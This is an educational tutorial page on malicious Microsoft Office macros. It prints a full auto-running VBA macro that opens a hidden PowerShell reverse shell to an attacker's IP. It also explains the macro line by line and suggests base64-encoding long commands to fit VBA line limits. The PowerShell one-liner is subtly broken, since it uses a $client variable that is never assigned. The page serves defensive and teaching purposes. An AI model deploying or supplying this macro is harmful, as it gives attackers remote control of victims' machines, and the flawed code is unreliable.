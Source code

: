 # 🖥️ Macros in Office

Macros are a powerful feature primarily used in Microsoft Office applications like Word, Excel, and Access. They are designed to automate repetitive tasks by executing a series of commands and functions embedded within a document. While macros can greatly increase productivity, they can also be exploited to deliver malware, including ransomware and backdoors.

#### How Macros Can Be Malicious

Attackers often use macros as a delivery mechanism for malicious code. When a user opens a document and enables macros, the embedded code executes, which can lead to undesirable actions. These actions can range from downloading malware from external servers to executing commands directly on the user's system.

The deceptive nature of macros lies in their ability to look innocuous while performing harmful actions in the background. Attackers typically spread such malicious documents through phishing emails, claiming the content is important and urging the recipient to enable macros to view the content.

#### Example of a Malicious Macro

Below is an example of a VBA (Visual Basic for Applications) macro designed to open a reverse shell on a Windows system. This can give an attacker remote access to the victim's computer.

```vba
Sub AutoOpen()
    OpenReverseShell
End Sub

Sub OpenReverseShell()
    Dim strShellPath As String
    strShellPath = "cmd.exe /c powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    Shell strShellPath
End Sub
```

#### Breakdown of the Macro Code

* **AutoOpen**: This subroutine is automatically called when the document is opened, provided macros are enabled. It calls the `OpenReverseShell` subroutine.
* **OpenReverseShell**: This subroutine constructs a command string to open a command shell (`cmd.exe`), which then uses PowerShell to create a TCP connection back to the attacker's specified IP address and port (`attacker_ip`, `4444`). The shell sends its output back through this connection, effectively giving shell access to the attacker.
* **Powershell Command**: The PowerShell script sets up a `TCPClient` socket to the attacker's specified address. It reads commands sent from the attacker's server, executes them on the victim's machine, and sends the results back to the attacker.



{% hint style="info" %}
**String Length**: VBA supports a maximum string length of about 2 billion characters, which is typically more than sufficient for most macro scripts. However, the practical limits for a single line of code or string literals in VBA are much lower, usually around 1024 characters. This limit can impact the way scripts are written, particularly when embedding long shell commands or scripts directly into the VBA code; A workaround could be to base64 encode the command and concatenate it across multiple lines.
{% endhint %}

#### Security Implications

Such macros pose significant security risks and exemplify why macros should be handled with caution. Many organizations choose to disable macros by default or only allow macros from trusted sources. Additionally, modern versions of Microsoft Office prompt users before enabling macros, especially when they originate from the internet, as part of their security features to mitigate unauthorized code execution.
